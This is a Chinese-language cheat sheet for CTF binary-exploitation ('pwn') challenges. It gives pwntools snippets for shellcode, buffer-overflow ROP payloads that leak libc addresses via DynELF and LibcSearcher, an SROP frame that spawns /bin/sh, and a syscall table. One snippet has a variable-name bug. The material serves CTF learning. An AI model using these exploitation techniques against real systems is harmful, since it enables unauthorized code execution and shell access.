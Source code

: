 # PWN题技巧总结

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

### printf

### scanf

### puts

### gets

### read

### write

### strcpy

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433